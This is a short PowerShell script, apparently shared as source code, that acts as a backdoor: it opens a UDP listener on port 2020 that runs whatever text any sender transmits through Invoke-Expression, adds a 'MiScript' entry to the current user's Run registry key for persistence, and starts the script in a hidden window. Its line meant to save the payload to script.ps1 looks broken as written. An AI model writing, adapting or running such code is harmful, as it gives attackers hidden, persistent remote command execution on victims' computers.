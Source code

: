 $rutaScript = Join-Path $env:HOMEDRIVE "\Users\$env:USERNAME\script.ps1";$port = 2020;$endpoint = New-Object System.Net.IPEndPoint ([IPAddress]::Any, $port);$udpclient = New-Object System.Net.Sockets.UdpClient $port;$content = $udpclient.Receive([ref]$endpoint);[Text.Encoding]::ASCII.GetString($content) | iex;$udpclient.Dispose() > $rutaScript

$nombreEntrada = "MiScript"
$valorEntrada = "powershell.exe -File $rutaScript"
if (-not (Test-Path "HKCU:\Software\Microsoft\Windows\CurrentVersion\Run\$nombreEntrada")) {
    New-ItemProperty -Path "HKCU:\Software\Microsoft\Windows\CurrentVersion\Run" -Name $nombreEntrada -Value $valorEntrada
}
Start-Process -FilePath "powershell.exe" -ArgumentList "-WindowStyle Hidden -File $rutaScript" -NoNewWindow -PassThru


